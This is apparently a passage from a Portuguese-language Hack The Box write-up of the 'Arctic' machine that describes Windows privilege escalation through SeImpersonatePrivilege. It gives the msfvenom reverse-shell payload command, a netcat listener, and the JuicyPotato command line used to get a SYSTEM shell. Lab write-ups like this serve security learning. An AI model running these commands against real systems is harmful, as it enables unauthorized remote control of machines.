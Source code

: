 ```
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.11
```

## GET SYSTEM

Conforme tinhamos verificado que estava habilitado o **SeImpersonatePrivilege        Impersonate a client after authentication Enabled** entao vou escalar usando metodo https://github.com/ohpe/juicy-potato

Primeiro gerei meu payload de 64bits de acordo com nosso alvo

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.36 LPORT=53 -f exe -o reverse.exe`

Em seguida transferir o exploit e meu reverse.exe  para  maquina alvo

Depois disso eh necessario o **CLSID** de acordo com o sistem operacional do alvo, no nosso caso eh um **Microsoft Windows Server 2008 R2 Standard** entao vai nesse link https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_Server_2008_R2_Enterprise

Apos ter feito toda essas etapas, podemos iniciar nosso listen na porta escolhida na criacao do payload e executar o exploit

```
root@kali:~/HTB-Windows/arctic# rlwrap nc -nlvp 53
listening on [any] 53 ...
```

Execute

`.\JuicyPotato.exe -l 1337 -p C:\Windows\Temp\reverse.exe -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}`

![9.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-arctic/9.jpg)

## Rascunho
